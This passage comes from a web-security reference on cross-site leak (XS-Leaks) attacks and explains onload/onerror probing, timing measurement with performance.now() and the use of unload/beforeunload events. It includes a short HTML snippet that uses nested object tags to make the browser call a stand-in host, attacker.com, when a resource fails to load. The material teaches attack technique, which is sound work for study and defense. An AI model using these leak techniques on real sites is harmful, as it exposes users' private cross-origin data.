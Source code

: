 The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

* **Inclusion Methods**: HTML Elements
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
* **Summary:** The \*\*\*\* [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** can be used to measure how much time it takes to perform a request. However, other clocks could be used, such as [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) which can identify tasks running for more than 50ms.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) another example in:

{% content-ref url="xs-search/performance.now-example.md" %}
[performance.now-example.md](xs-search/performance.now-example.md)
{% endcontent-ref %}

#### Onload Timing + Forced Heavy Task

This technique is just like the previous one, but the **attacker** will also **force** some action to take a **relevant amount time** when the **answer is positive or negative** and measure that time.

{% content-ref url="xs-search/performance.now-+-force-heavy-task.md" %}
[performance.now-+-force-heavy-task.md](xs-search/performance.now-+-force-heavy-task.md)
{% endcontent-ref %}

### unload/beforeunload Timing

* **Inclusion Methods**: Frames
* **Detectable Difference**: Timing (generally due to Page Content, Status Code)
* **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)
* **Summary:** The [SharedArrayBuffer clock](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#sharedarraybuffer-and-web-workers) can be used to measure how much time it takes to perform a request. Other clocks could be used.
* **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#unload-events)

The [`unload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/unload\_event) and [`beforeunload`](https://developer.mozilla.org/en-US/docs/Web/API/Window/beforeunload\_event) events can be used to measure the time it takes to fetch a resource. This works because **`beforeunload`** is triggered when the browser **requests a new navigation** request, while **`unload`** is triggered when that **navigation actually occurs**. Because of this behaviour, it is possible to calculate the time difference between these two events and measure the **time it took the browser to complete fetching the resource**.
